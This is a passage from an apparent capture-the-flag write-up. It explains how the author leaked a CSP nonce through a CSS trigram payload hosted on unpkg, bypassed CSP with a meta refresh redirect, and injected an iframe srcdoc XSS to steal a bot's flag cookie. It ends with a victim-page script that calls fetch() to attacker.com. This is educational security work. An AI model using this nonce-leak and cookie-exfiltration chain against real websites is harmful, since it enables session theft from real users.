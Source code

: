             final_candidates.add(candidate)
    return final_candidates
{% endhighlight %}

Indeed, with the code above and the trigrams leaked, we recover the full nonce, `t23gmh5ac4o5vs4sdilfu1s1zs6eelud`!

### Just When You Think It's Over....

So we managed to leak the nonce in our dummy setup, the challenge is in spirit "solved" but what remains is the logistical challenge of doing this dynamically. This part is considerably less exciting and hence won't be fleshed out in detail, but I'll spell out some of the challenges faced and how I got around it. In particular, the full attack flow looks like the following:

- we create a shared post containing a [meta refresh redirect](https://www.w3.org/TR/WCAG20-TECHS/H76.html) to our malicious, self-hosted page, this is a universal CSP bypass to redirect to any site of our choosing --- I just used ngrok + FastAPI's static hosting to host our malicious page
- we need to upload our CSS payload as an npm package ---  this was done manually since it only needs to be done once
- we create another shared post with our actual CSS nonce leaking payload (i.e. the two link elements pointing to the two files hosted on unpkg) --- again this was done manually
- upon reporting, the bot with the `FLAG` cookie would visit our initial shared post, and be redirected to our malicious self-hosted page contains an iframe pointing to the shared post with the nonce-leaking payload --- unforunately, this iframe method that we tested above turned out to be the wrong solution since the parent frame is of a different origin and so the XSS in the child frame didn't have access to the cookie; this strangely can be bypassed if you create a new window, and even in this context we could still manipulate the `location.href` through the handle of the window, which is what we need to get the page to load our XSS payload without updating the nonce
- our server reconstructs the nonce from the tri-grams leaked, and then creates another shared post with an inlined script element containing the leaked nonce, which is the desired XSS payload to exfiltrate the cookie (i.e. flag) --- I simply use a FastAPI server for this, and have another background thread checking for a stream of tri-grams, and when the tri-grams are no longer populated, attempt to reconstruct the nonce before creating/sharing the post using the `requests` library
  - recall that that the injection context is a `innerHTML`, so we can't just use a `script` element; injecting an `iframe` with the `srcdoc` of your desired XSS payload [works perfectly fine though](https://github.com/whatwg/html/issues/2300)
- we have to trigger a `href` change in the victim context so as to change the content without changing the nonce - I simply used a `setTimeout` for this, and used some `fetch` calls internally to debug if the setTimeout was called too early or too late
- the XSS is triggered on the bot and we receive the flag
- submit the flag and call it a day

And with that, the challenge is complete!

## Final Solution

Here are the remaining solve scripts for completeness.

Victim page:

{% highlight html %}
<script>
    // this is the shared note ID containing the CSS nonce leaking payload
    f = open("http://localhost/share/read#id=0&username=username")
    function lol() {
        fetch('https://attacker.com/CHECK_inside_lol')
        // this is the shared note ID containing the XSS payload
        f.location.href = "http://localhost/share/read#id=16&username=username"
    }
    fetch('https://attacker.com/CHECK_outside_lol')
    setTimeout(lol, 4000);
</script>
{% endhighlight %}
